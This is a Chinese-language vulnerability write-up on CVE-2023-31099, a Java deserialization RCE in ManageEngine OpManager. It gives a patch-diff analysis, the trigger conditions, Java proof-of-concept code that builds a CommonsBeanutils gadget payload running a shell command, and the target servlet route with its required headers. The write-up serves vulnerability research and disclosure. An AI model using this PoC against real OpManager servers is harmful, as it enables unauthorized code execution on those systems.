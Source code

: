 
Zoho ManageEngine Opmanager 反序列化 RCE（CVE-2023-31099）

- - -

# Zoho ManageEngine Opmanager 反序列化 RCE（CVE-2023-31099）

整理今年的笔记看到这个洞，搜了一下网上好像没公开细节就发出来水一篇。

## 环境搭建

下载地址： [https://archives3.manageengine.com/opmanager/126323/](https://archives3.manageengine.com/opmanager/126323/)  
下载 central 和 probe，安装 central 之后复制 key，再安装 probe 并指定 central 地址

调式：修改 wrapper.conf  
wrapper.java.additional.17=-Xdebug  
wrapper.java.additional.18=-Xrunjdwp:transport=dt\_socket,server=y,suspend=n,address=7007

## 漏洞分析

对比 diff 找到关键点  
[![](assets/1704273669-410f4f5ddce2157b3f08ec061198e90c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229165205-8aead9b6-a627-1.png)

OpManagerDistribution.jar!\\com\\me\\opmanager\\extranet\\remote\\communication\\fw\\DataObject#getObjectData中反序列化操作替换成ITOMObjectInputStream，通过设置白名单的方式进行修复。

```plain
public Object getObjectData() {
        if (!this.isDataEncrypted && this.object != null) {
            return this.object;
        } else {
            ByteArrayInputStream bais = null;
            ObjectInputStream ois = null;
            if (this.data != null) {
                try {
                    byte[] decompressedData = null;
                    byte[] decompressedData;
                    if (this.isDataEncrypted) {
                        decompressedData = EEFrameworkUtil.decryptDataObject(this.data);
                        decompressedData = NmsUtil.decompress(decompressedData);
                    } else {
                        decompressedData = NmsUtil.decompress(this.data);
                    }
                    bais = new ByteArrayInputStream(decompressedData);
                    ois = new ObjectInputStream(bais);
                    this.object = ois.readObject();
                } catch (InvalidClassException var14) {
                    this.object = this.getUncheckedUIDData(this.data);
                } catch (Exception var15) {
                    var15.printStackTrace();
                } finally {
                    try {
                        if (ois != null) {
                            ois.close();
                        }
                        if (bais != null) {
                            bais.close();
                        }
                    } catch (Exception var13) {
                        var13.printStackTrace();
                    }
                }
            }
            return this.object;
        }
    }
```

sink 点在该类的 data 字段，如果该字段可控就能实现 RCE。  
通过调用该类的 setter 方法设置 this.data 字段，然后再调用 getObjectData 就能触发 RCE，但是并未找到。

后面熟悉了下功能后，该类应该是用于 probe 向 central 传输消息的，所以应该是传输消息过程反序列化 DataObject 类之后再调用 getObjectData 方法，最后触发 RCE，根据这个思路找到了可直接发送发序列化数据的 source 点 com.me.opmanager.extranet.remote.communication.fw.fe.RegionalListener，相关代码如下

[![](assets/1704273669-52c904acde6ae45fc0a7ba83a6605ca3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229165331-bdf8ebea-a627-1.png)

发现刚好设置了 com.me.opmanager.extranet.remote.communication.fw.DataObject 的白名单，继续跟进 SPPRegionalCommBE 的 transferDataToNOC 方法：

[![](assets/1704273669-db24b1e1ce154155605458adacbb2a5d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229165439-e6a89ba8-a627-1.png)

最终某个分支会调用 dataObject.getObjectData() 方法触发反序列化，需要满足以下条件：

1.  NotificationType 值为 24 并且 DataPriority 值为 0
2.  userProps 字段种需要存放一个 key 为 regReqID 的数据

这些值都来自 dataObject 类的字段，可控。

poc 如下

```plain
public class cve_2023_31099 {
    public static void main(String[] args) throws Exception {
        DataObject obj = new DataObject();
        int notificationType = 24;
        setField(obj,"notificationType",notificationType);
        int dataPriority = 0;
        setField(obj,"dataPriority",dataPriority);
        Properties userProps = new Properties();
        userProps.put("regReqID","qwe");
        setField(obj, "userProps",userProps);
        Class<? extends ObjectPayload> payloadClass = ObjectPayload.Utils.getPayloadClass("CommonsBeanutilsNOCC");
        ObjectPayload payload = (ObjectPayload)payloadClass.newInstance();
        Object object = payload.getObject("cmd /c echo 1 > c:\\1.txt");
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(object);
        oos.flush();
        byte[] bytes = baos.toByteArray();
        byte[] datas =  NmsUtil.compress(bytes);
        setField(obj, "data", datas);
        obj.getObjectData();
        FileOutputStream fos = new FileOutputStream("1.ser");
        ObjectOutputStream foos = new ObjectOutputStream(fos);
        foos.writeObject(obj);
    }
}
```

根据 web.xml 定位到路由为/servlet/com.me.opmanager.extranet.remote.communication.fw.fe.RegionalListener，这里无需 opmanager-central 的 Cookie，但是需要提供三个 Header 头

1.  authkey: 安装 probe 时用的 key
2.  regionID: probe 名称
3.  method: 请求方法，这里是 POST

## 漏洞复现

[![](assets/1704273669-2fc977eef4de775513ee8b35a3ee6600.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229165613-1e6fac48-a628-1.png)
